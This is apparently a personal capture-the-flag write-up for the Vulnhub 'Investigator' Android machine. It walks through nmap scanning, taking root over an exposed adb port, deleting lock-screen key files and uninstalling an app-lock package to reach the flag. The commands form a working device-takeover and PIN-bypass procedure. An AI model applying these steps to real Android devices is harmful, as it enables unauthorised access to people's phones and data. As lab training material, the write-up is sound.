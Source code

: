 ```yaml
---
title: Vulnhub - Investigator
description: My writeup on Investigator box.
categories:
 - vulnhub
tags: vulnhub android adb
---
```


![](https://hackersfun.com/wp-content/uploads/2019/03/evil-android.jpg)

Hi all, firstly i didnt want to try this box because i have no idea how to pentest/hack an android box. In real life i don't even use/have a smart phone but then i say to myself it's a great way to learn something new, so let's pwn it!

You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

port `5555` seems suspicious, i did some research on it and i found a way to exploit it. :)

port `5555` == adb service, adb (Android Debug Bridge) can control your device over USB or wireless by enabling a daemon server at port 5555.

Install adb: `sudo apt-get install adb`

## Exploiting adb service

Now let's exploit it, first we need to connect on target:

```
$ adb connect $ip:5555
connected to 192.168.1.10:5555
```

Now let's spawn a shell:

```
$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ 
```

Bingo! That simple, we can even simplier take a root shell:

```
$ su
uid=0(root) gid=0(root)@x86:/ # 
```

Now because i have no idea how android file system is working, i decided to search for the root directory:

```
uid=0(root) gid=0(root)@x86:/ # find / -type d -name "root"
/data/root
```

We can see a `flag.txt` there:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!! 

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!     


Agent "S"   Your Secret Key ---------------->259148637
```

## Removing PIN - finding the real flag

Here i stuck, i was searching for the flag for loooot of hours & then i deleted the box i said OK i got root shell i can't find the real flag. Today i had a chat with a friend on this box and we both stuck finding the real flag, i told him that you can remove the pin using adb shell. After some minutes he found the real flag! Shout out to @Freakazoid without him i wasn't able to gain the real flag! :D

Now as you can see, the android box asks for a PIN:

![](https://i.imgur.com/5xnXKzl.png)

We can remove this using our root shell, simply do this:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm *.key
```

& reboot the box, now we can see there is no PIN:

![](https://i.imgur.com/uTqpowJ.png)

If we go to open an app asks for a pattern:

![](https://i.imgur.com/ecarBwa.png)

Probably there is an app in background, that locks the other apps, let's search for it and remove it:

```
$ adb connect $ip:5555                       
connected to 192.168.1.10:5555
$ adb shell su 0 pm list packages | grep lock
package:com.domobile.applockwatcher
package:bong.android.androidlock
package:com.martianmode.applock <---
package:com.android.deskclock
```

`com.martianmode.applock` seems interesting, let's remove it:

```
$ adb uninstall com.martianmode.applock 
Success
```

Now we can see the real flag in messages:

![](https://i.imgur.com/GNjkEeN.png)

I learnt some new stuff, fux box :)
